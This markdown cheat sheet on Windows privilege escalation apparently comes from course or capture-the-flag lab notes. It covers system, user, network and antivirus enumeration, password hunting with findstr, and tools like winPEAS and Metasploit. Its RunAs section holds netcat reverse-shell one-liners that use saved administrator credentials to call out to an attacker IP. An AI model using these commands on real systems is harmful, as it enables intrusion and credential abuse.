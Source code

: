 ### Windows Privesc TCM

## System Enumeration

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` 

**Pull up patches**

`wmic qfe`

wmic qfe get Caption,Description,HotFixID,InstalledOn

**List all drives**

`wmic logicaldisk`

wmic logicaldisk get Caption,description,providername

## User E numeration

`whoami` 

**Find user privileges**

`whoami /priv`

**Groups you belong to**

`whoami /groups`

**Find users on this machine**

`net user`

**See who is part of a group**

`net localgroup administrators`

## Network Enumeration

`ipconfig && ipconfig /all`

**Drop arp table**

`arp -a`

**Read routing table**

`route print`

**See ports**

`netstat -nao`

## Password Hunting

**Search current directory**

`findstr /si password *.txt *.ini *.config`

## A/V and Firewall Enumeration

**Check windows defender**

`sc query windefend`

**Look for A/V**

`sc queryex type= service`

**Check firewall state**

`netsh advfirewall dump`

**Check firewall rules**

`net firewall show config`

## Automated Enumeration Tools
| Exectuables   | PowerShell    | Other | 
| ------------- | ------------- | ------------- |
| winPEAS.exe   | Sherlock.ps1  | windows-exploit-suggest.py |
| Seatbelt.exe  | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 | |
|SharpUp.exe | | |

**Exploit Suggester**
`run post/multi/recon/local_exploit_suggester`

**Windows Linux Subsystem**
Can be used to escalate privileges

## Token Impersonation

What are tokens?
Tokens are temp keys taht allow you access to a system/network without having to provide creds each time.

Two types:
* Delegate - Create for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attaching a network drive or domain logon script

## RunAs

`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Users\Public\nc.exe -e cmd.exe x.x.x.x"`
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.14.16 9006"`
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -e cmd.exe x.x.x.x"`
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\root.txt > C:\Users\security\root.txt"`
